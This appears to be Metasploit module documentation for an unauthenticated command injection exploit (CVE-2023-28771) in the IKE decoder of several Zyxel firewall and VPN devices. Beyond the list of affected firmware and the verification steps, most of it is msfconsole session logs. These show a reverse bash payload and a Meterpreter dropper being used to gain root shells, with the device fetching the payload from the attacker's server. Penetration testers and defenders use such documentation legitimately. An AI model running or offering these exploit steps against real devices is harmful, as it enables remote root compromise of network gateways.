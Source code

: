 ## Vulnerable Application
This module exploits a remote unauthenticated command injection vulnerability in the Internet Key Exchange
(IKE) packet decoder over UDP port 500 on the WAN interface of several Zyxel devices. The affected devices are
as follows:

* ATP (Firmware version 4.60 to 5.35 inclusive)
* USG FLEX (Firmware version 4.60 to 5.35 inclusive),
* VPN (Firmware version 4.60 to 5.35 inclusive)
* ZyWALL/USG (Firmware version 4.60 to 4.73 inclusive).

The affected devices are vulnerable in a default configuration and command execution is with root privileges. For a
full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/N3i8dxpFKS/cve-2023-28771/rapid7-analysis).

## Testing
A physical device is required for testing. The device must be running a vulnerable firmware version prior to the
vendor patch. A Zyxel USG FLEX 100 device was used during development and testing of this Metasploit module.

The attacker must be able to send UDP data to port 500 on the WAN interface of the affected network device.

## Verification Steps
1. Start msfconsole
2. `use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771`
3. `set RHOST <TARGET_WAN_IP>`
4. `set LHOST eth0`
5. `check`
6. `exploit`
7. The default target `0` is a `cmd/unix/reverse_bash` payload. A root command shell session should be created.

## Scenarios

### Linux Command (Zyxel USG FLEX 100)
```
msf6 > use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set RHOST 192.168.86.40
RHOST => 192.168.86.40
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > show options

Module options (exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.86.40    yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    500              yes       The target port (UDP)
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (defau
                                       lt is randomly generated)
   URIPATH                   no        The URI to use for this exploit (defaul
                                       t is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > check
[*] 192.168.86.40:500 - The service is running, but could not be validated. IKE detected but device vendor and service version are unknown.
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Command shell session 1 opened (192.168.86.42:4444 -> 192.168.86.40:42973) at 2023-05-22 17:34:41 +0100

id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux usgflex100 3.10.87-rt80-Cavium-Octeon #2 SMP Tue Jan 4 18:13:49 CST 2022 mips64 Cavium Octeon III V0.2 FPU V0.0 ROUTER7000_REF (CN7020p1.2-1200-AAP) GNU/Linux
exit
[*] 192.168.86.40 - Command shell session 1 closed.
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > 
```

### Linux Dropper (Zyxel USG FLEX 100)
```
msf6 > use exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set TARGET 1
TARGET => 1
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set PAYLOAD linux/mips64/meterpreter_reverse_tcp
PAYLOAD => linux/mips64/meterpreter_reverse_tcp
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set RHOST 192.168.86.40
RHOST => 192.168.86.40
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set LHOST eth0
LHOST => eth0
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > set SRVHOST eth0
SRVHOST => 192.168.86.42
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > show options

Module options (exploit/linux/misc/zyxel_ike_decoder_rce_cve_2023_28771):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   192.168.86.40    yes       The target host(s), see https://docs.me
                                       tasploit.com/docs/using-metasploit/basi
                                       cs/using-metasploit.html
   RPORT    500              yes       The target port (UDP)
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (defau
                                       lt is randomly generated)
   URIPATH                   no        The URI to use for this exploit (defaul
                                       t is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.86.42    yes       The local host or network interface to
                                       listen on. This must be an address on t
                                       he local machine or 0.0.0.0 to listen o
                                       n all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/mips64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be s
                                     pecified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > check
[*] 192.168.86.40:500 - The service is running, but could not be validated. IKE detected but device vendor and service version are unknown.
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Using URL: http://192.168.86.42:8080/FbXB7q
[*] Client 192.168.86.40 (curl/7.70.0) requested /FbXB7q
[*] Sending payload to 192.168.86.40 (curl/7.70.0)
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.40:42976) at 2023-05-22 17:36:49 +0100
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.40
OS           :  (Linux 3.10.87-rt80-Cavium-Octeon)
Architecture : mips64
BuildTuple   : mips64-linux-muslsf
Meterpreter  : mips64/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.86.40 - Meterpreter session 1 closed.  Reason: User exit
msf6 exploit(linux/misc/zyxel_ike_decoder_rce_cve_2023_28771) > 
```
